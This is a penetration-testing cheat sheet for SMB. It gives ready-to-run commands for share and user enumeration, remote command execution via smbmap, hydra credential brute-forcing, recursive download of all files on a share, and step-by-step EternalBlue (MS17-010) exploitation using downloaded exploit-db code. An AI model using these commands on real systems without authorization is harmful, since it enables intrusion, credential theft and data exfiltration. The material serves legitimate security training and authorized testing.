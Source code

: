 ```yaml
---
title: Server Message Block (SMB) Pentesting
desc: It allows clients, like workstations, to communicate with a server like a share directory. Default port is 139, 445.
tags: [139, 445, Active, Directory, EternalBlue, Hydra, Nmap, Samba, SMB, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

- **Nmap**

    ```sh
    nmap --script smb-brute -p 445 <target-ip>
    nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 445 <target-ip>
    nmap --script smb-enum* -p 445 <target-ip>
    nmap --script smb-protocols -p 445 <target-ip>
    nmap --script smb-vuln* -p 445 <target-ip>
    ```

- **Enum4linux**

    ```sh
    # Basic
    enum4linux 10.0.0.1

    # All enumeration
    enum4linux -a 10.0.0.1

    # Verbose
    enum4linux -v 10.0.0.1

    # Specify username and password
    enum4linux -u username -p password 10.0.0.1
    ```

- **Smbmap**

    ```sh
    smbmap -H <target-ip>

    # Recursive
    smbmap -H <target-ip> -R

    # Username and password
    smbmap -u username -p password -H <target-ip>

    # Execute a command
    smbmap -u username -p password -H <target-ip> -x 'ipconfig'
    ```

<br />

## Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb
```

<br />

## Connect

- **Smbclient**

    ```sh
    smbclient -L 10.0.0.1
    smbclient -N -L 10.0.0.1
    smbclient -N -L \\\\10.0.0.1
    smbclient -L 10.0.0.1 -U username

    # anonymous
    smbclient //10.0.0.1/somedir -N
    # with space
    smbclient "//10.0.0.1/some dir" -N

    # Specify shared directory
    smbclient //10.0.0.1/somedir -U username
    # nobody, no-pass
    smbclient //10.0.0.1/somedir -N -U nobody

    # Specify workgroup
    smbclient -L 10.0.0.1 -W WORKGROUP -U username
    ```

    After connecting, you can download all files in share directory by the following commands:

    ```sh
    SMB:> mask ""
    SMB:> recurse ON
    SMB:> prompt OFF
    SMB:> mget *
    ```

    Or using Smbget from external:

    ```sh
    smbget -R smb://10.0.0.1/somedir -U username

    # Specify workgroup
    smbget -R smb://10.0.0.1/somedir -w WORKGROUP -U username
    ```

<br />

## EternalBlue (MS17-010)

- **AutoBlue**

    **[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010){:target="_blank"}** is an automatic exploit.  
    Download the repository and run the following example command.

    ```sh
    python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
    ```

- **Manual Exploiting**

    You need to have two files - exploit.py, mysmb.py

    - **Download mysmb.py**

        ```sh
        wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

        # Convert DOS to UNIX
        dos2unix mysmb.py
        ```

    - **Edit Some Lines of mysmb.py for Python3**

        You need to edit some code because this exploit is old so only supports **Python2**.

        ```sh
        Line.69
        # transData = b''
        transData = ''

        Line.73
        # transData = ('\x00' * padLen) + str(parameters)
        transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

        Line.80
        # transData += ('\x00' * padLen) + data
        transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

        Line.231
        # req = str(pkt)
        req = pkt.getData()
        return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

        Line.381
        # data += resp['Data'][1:]
        data += resp['Data'][1:].decode()
        ```

    - **Download exploit.py**

        ```sh
        wget -O exploit.py https://www.exploit-db.com/exploits/42315

        # Convert DOS to UNIX
        dos2unix exploit.py
        ```

    - **Edit the Credentials in exploit.py**

        ```sh

        ...
        username = "username"
        password = "password"
        ...

        ```

    - **Run**

        ```sh
        python exploit.py 10.0.0.1 netlogon
        python exploit.py 10.0.0.1 lsarpc
        python exploit.py 10.0.0.1 samr
        ```